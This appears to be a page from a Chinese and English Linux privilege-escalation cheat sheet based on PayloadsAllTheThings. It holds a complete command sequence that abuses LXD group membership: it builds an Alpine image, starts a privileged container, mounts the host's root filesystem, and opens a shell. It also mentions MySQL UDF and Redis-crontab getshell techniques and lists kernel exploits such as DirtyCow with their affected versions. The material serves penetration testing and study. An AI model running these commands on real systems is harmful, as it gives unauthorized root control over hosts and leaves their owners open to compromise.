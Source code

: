 ```shell
╭─swissky@lab ~  
╰─$ id
uid=1000(swissky) gid=1000(swissky) groupes=1000(swissky),3(sys),90(network),98(power),110(lxd),991(lp),998(wheel)
```

Build an Alpine image and start it using the flag `security.privileged=true`, forcing the container to interact as root with the host filesystem.

构建一个Alpine镜像 并使用`security.privileged=true`参数启动 强制容器以root权限与主机文件系统交互

```shell
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a i686

# import the image
lxc image import ./alpine.tar.gz --alias myimage

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

Alternatively https://github.com/initstring/lxd_root


----

#### root进程

* 以root权限运行的进程
  * MySQL UDF提权
  * redis 未授权 - 利用crontab写定时任务 getshell(该shell继承redis权限)
  * ...

----

#### Kernel Exploits

利用linux内核漏洞提权

|名称|类型|适用环境|描述|
|:-------------:|--|--|-----|
|CVE-2016-5195 (DirtyCow)|Kernel Exploits|Linux Kernel <= 3.19.0-73.8|DirtyCow|
|CVE-2010-3904 (RDS)|Kernel Exploits| Linux Kernel <= 2.6.36-rc8|RDS|
|CVE-2010-4258 (Full Nelson)|Kernel Exploits|Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)|Full Nelson|
|CVE-2012-0056 (Mempodipper)|Kernel Exploits|Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)|Mempodipper |


详细参考 [PayloadsAllTheThings/Linux - Privilege Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

